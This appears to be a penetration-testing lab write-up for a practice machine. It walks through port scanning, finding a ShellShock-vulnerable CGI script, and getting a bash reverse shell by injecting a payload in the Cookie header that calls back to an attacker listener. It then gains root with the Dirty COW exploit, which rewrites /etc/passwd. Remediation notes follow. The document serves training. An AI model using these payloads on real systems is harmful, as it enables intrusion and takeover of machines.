

# Scope



# Enumeration

```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 06cb9ea3aff01048c417934a2c45d948 (DSA)
| ssh-dss AAAAB3NzaC1kc3MAAACBAO7z5YzRXLGqibzkX44TJn616aaDE3rvYcPwMiyWE3/J+WrJNkyMIRfqggIho1dxtYOA5xXP+UCk3osMe5XlMlocy3McGlmqhSrMFbQOOFrvm/PMAF649Xq/rDm2M/m+sXgxvQmJyLV36DqwbxxCL1wrICNk4cxfDG1K2yTGVw/rAAAAFQDa/l4YfWS1CNCRhv0XZbwXkGdxfwAAAIEAnMQzPH7CGQKfsHXgyFl3lsOMpj0ddXHG/rWZvFn+8NdAh48do0cN88Bti8C4Asibcp0zbEEga9KgxeR+dQi2lg3nHRzHFTPTnjybfUZqST4fU1VE9oJFCL3Q1cWHPfcvQzXNqbVDwMLSqpRYAbexXET64DgwX4fw8FSV6efKaQQAAACAVGZB5+2BdywfhdFT0HqANuHvcLfjGPQ8XkNTcO+XFSWxNFwTnLOzZE8FVNsTIBdMjXKjbWOwLMkzb4EHhkeyJglqDWvBoVTiDpXbRxctFiGt0Z83EvTJJSEAGYDCMHkux/dcVYe0WNjJYX9GBjXB2yhL/2kZuH0lzoNx9fITQ/U=
|   2048 b7c5427bbaae9b9b7190e747b4a4de5a (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCwlghTOhfNbdMRHJF0N2ho6RlE8HR+wVE5aoFt/PPu6dveDLV7xt7GLS8Q849r1tAScErRUVryrD6gwQ0DB45hGrw8POQlnUHggTjyNp3+sshrWqRs5Dp93LL3NvhpBXl6YD9bJEC3e2qXY3Vwm+Wc/GE/9SxlB+aHL/ekjgNVWgpMT1y/fCKAWlF4TLKUl7Xc21GGWnQptGyYweSbefo4TPa7neg+YdpZkqMWaoK/eEbG+Ze5ocSEWrmB3jQMDHhgeZDO/gB3iuxSDrOToSZmsNcW6TtgqyVyo1q26VIjVRWZPlm9wyR1YB4M85uXZG2DSYu4TFKDwKhXBCqgnSHx
|   256 fa81cd002d52660b70fcb840fadb1830 (ECDSA)
|_ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAf1vV7lVrnTZwOIFZj7gvuahGAK2YAv8dBxFD5jV7Ho5nXHPCulaGcA9aYW9z2ih2JL/0+3zfdPfk3JBYVyrM8=
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.22 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## SSH

- No credentials to log in

## HTTP

### Whatweb

```bash
[Apr 06, 2026 - 10:01:36 (+08)] exegol-offsec sumo # whatweb http://$TARGET/
http://192.168.163.87/ [200 OK] Apache[2.2.22], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.2.22 (Ubuntu)], IP[192.168.163.87]
```

### cURL

```bash
[Apr 06, 2026 - 10:01:50 (+08)] exegol-offsec sumo # curl -I http://$TARGET
HTTP/1.1 200 OK
Date: Mon, 06 Apr 2026 02:03:41 GMT
Server: Apache/2.2.22 (Ubuntu)
Last-Modified: Mon, 11 May 2020 17:55:10 GMT
ETag: "1a094e-b1-5a5630c4f3177"
Accept-Ranges: bytes
Content-Length: 177
Vary: Accept-Encoding
Content-Type: text/html
X-Pad: avoid browser bug
```

### Directory Busting

```bash
200      GET        4l       25w      177c http://192.168.163.87/
200      GET        4l       25w      177c http://192.168.163.87/index
200      GET        1l        3w       14c http://192.168.163.87/cgi-bin/test
```

### Findings

- Only links from directory busting is `cgi-bin/test`.

# Exploit

- Exposed `cgi-bin` directory could be a valid attack vector. The server could be vulnerable to [ShellShock](https://hacktricks.wiki/en/network-services-pentesting/pentesting-web/cgi.html).

## ShellShock

### Testing

```bash
[Apr 06, 2026 - 10:11:17 (+08)] exegol-offsec sumo # nmap $TARGET -p80 --script=http-shellshock --script-args uri=/cgi-bin/test
Starting Nmap 7.93 ( https://nmap.org ) at 2026-04-06 10:11 +08
Nmap scan report for 192.168.163.87
Host is up (0.0094s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-shellshock:
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known
|       as Shellshock. It seems the server is executing commands injected
|       via malicious HTTP headers.
|
|     Disclosure date: 2014-09-24
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|       http://www.openwall.com/lists/oss-security/2014/09/24/10
|       http://seclists.org/oss-sec/2014/q3/685
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271

Nmap done: 1 IP address (1 host up) scanned in 0.23 seconds
```

### Reverse Shell

- The `cookie` HTTP header is used as an injection point for system commands.
- Using cURL to get a reverse ShellShock

```bash
[Apr 06, 2026 - 10:40:55 (+08)] exegol-offsec sumo # curl -H 'Cookie: () { :;}; /bin/bash -i >& /dev/tcp/192.168.45.224/4444 0>&1' http://$TARGET/cgi-bin/test

[Apr 06, 2026 - 10:40:22 (+08)] exegol-offsec sumo # penelope 4444
[+] Listening for reverse shells on 0.0.0.0:4444 →  127.0.0.1 • 192.168.215.2 • 192.168.45.224
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] Got reverse shell from ubuntu~192.168.163.87-Linux-x86_64 😍️ Assigned SessionID <1>
[+] Attempting to upgrade shell to PTY...
[+] Shell upgraded successfully using /usr/bin/python! 💪
[+] Interacting with session [1], Shell Type: PTY, Menu key: F12
[+] Logging to /root/.penelope/sessions/ubuntu~192.168.163.87-Linux-x86_64/2026_04_06-10_41_03-840.log 📜
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
www-data@ubuntu:/usr/lib/cgi-bin$
```

# Internal Enumeration

## Kernel

```bash
www-data@ubuntu:/var$ uname -a
Linux ubuntu 3.2.0-23-generic #36-Ubuntu SMP Tue Apr 10 20:39:51 UTC 2012 x86_64 x86_64 x86_64 GNU/Linux
```

## Sudo Rights

- No password, can't view this.

## SUID/SGID

- These aren't able to be exploited.

## Writeable Files

- None immediately obvious.

## Linpeas

- Based on the output, and refering to the kernel version the exploit `Dirtycow` might be viable here.

# Privilege Escalation

- Transferred the exploits in `c` onto the target, and attempted to use gcc to build them. There seems to be an issue with this.
- There is an error that has to do with `cc1`

```bash
www-data@ubuntu:/tmp$ gcc -pthread dirty.c -o dirty -lcrpyt
gcc: error trying to exec 'cc1': execvp: No such file or directory
```

- Even though `linpeas` breaks halfway, what remains shows that there are a few versions of gcc on this machine.
- Setting the path to the main directory for gcc fixes this.

```bash
www-data@ubuntu:/tmp$ export PATH=$PATH:/usr/lib/gcc/x86_64-linux-gnu/4.6
```

- Building the exploit again works.

```bash
www-data@ubuntu:/tmp$ gcc -pthread dirty.c -o dirty -lcrypt
www-data@ubuntu:/tmp$ ls
33589.c  dirty  dirty.c  vmware-root
```

- Running it gets root access.

```bash
www-data@ubuntu:/tmp$ ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password:
Complete line:
toor:toSafVYu/pUk6:0:0:pwned:/root:/bin/bash

mmap: 7fc20798d000

su toor
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'toor' and the password ''.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'toor' and the password ''.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
www-data@ubuntu:/tmp$
www-data@ubuntu:/tmp$ su toor
Password:
```

# Remediation

## The issue

> The vulnerability known as "Shell Shock" refers to a security flaw in the Bash shell, a widely used command-line interpreter in Unix-based operating systems. This vulnerability allows remote attackers to execute arbitrary code on a server running a vulnerable version of Bash. The vulnerability is caused by improper handling of environment variables in Bash, which allows an attacker to inject malicious code into these variables. When Bash is invoked, it processes these variables and executes the injected code, giving the attacker unauthorized access to the server.

## The risks

The Shell Shock vulnerability poses significant risks to the security of a server. If exploited, an attacker can:

- Execute arbitrary code: The attacker can execute any command or script on the server, potentially gaining full control over the system.
- Access sensitive information: By executing commands, the attacker can access sensitive data stored on the server, such as user credentials, databases, or configuration files.
- Spread malware: The attacker can use the vulnerability to install and execute malware on the server, compromising the integrity of the system and potentially spreading to other connected systems.
- Launch further attacks: Once the attacker gains control over the server, they can use it as a launching pad for further attacks, such as launching DDoS attacks, distributing spam, or hosting malicious content.

## The fix

- Update bash to a version that has been patched already.

# Lessons Learnt

- Ignored the `cgi-bin` directory initially, and got rabbitholed for more than 2 hours. That and the fix for the `gcc` compiler.
- The lesson is to never leave any links untested.
